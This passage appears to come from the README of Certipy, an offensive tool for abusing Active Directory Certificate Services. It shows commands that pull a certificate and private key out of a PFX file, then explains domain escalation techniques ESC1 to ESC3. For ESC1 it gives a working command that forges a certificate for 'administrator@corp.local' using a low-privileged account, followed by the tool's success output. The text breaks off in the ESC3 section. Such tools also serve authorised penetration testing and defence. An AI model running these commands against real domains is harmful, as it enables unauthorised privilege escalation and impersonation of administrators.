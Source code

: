 If you only want the certificate or the private key, you can specify `-nokey` or `-nocert`, respectively.

```bash
$ certipy cert -pfx john.pfx -nokey                                          
Certipy v2.0.8 - by Oliver Lyak (ly4k)

-----BEGIN CERTIFICATE-----
MIIF1DCCBLygAwIBAgITFwAAA...
-----END CERTIFICATE-----
$ certipy cert -pfx john.pfx -nocert
Certipy v2.0.8 - by Oliver Lyak (ly4k)

-----BEGIN PRIVATE KEY-----
MIIEvgIBADANBgkqhkiG9w0BA...
-----END PRIVATE KEY-----
```

### Domain Escalation

The following sections describe how to abuse various misconfigurations for domain escalations with Certipy. Certipy supports ESC1, ESC2, ESC3, ESC4, ESC6, ESC7, and ESC8. All escalation techniques are described in depth in [Certified Pre-Owned](https://posts.specterops.io/certified-pre-owned-d95910965cd2).

#### ESC1

ESC1 is when a certificate template permits Client Authentication and allows the enrollee to supply an arbitrary Subject Alternative Name (SAN).

For ESC1, we can request a certificate based on the vulnerable certificate template and specify an arbitrary SAN with the `-alt` parameter.

```bash
$ certipy req 'corp.local/john:Passw0rd!@ca.corp.local' -ca 'corp-CA' -template 'ESC1' -alt 'administrator@corp.local'
Certipy v2.0.8 - by Oliver Lyak (ly4k)

[*] Requesting certificate
[*] Successfully requested certificate
[*] Request ID is 659
[*] Got certificate with UPN 'administrator@corp.local'
[*] Saved certificate and private key to 'administrator.pfx'
```

#### ESC2

ESC2 is when a certificate template can be used for any purpose. Since the certificate can be used for any purpose, it can be used for the same technique as with ESC3. See below.

#### ESC3

ESC3 is when a certificate template specifies the Certificate Request Agent EKU (Enrollment Agent). This EKU can be used to request certificates on behalf of other users.
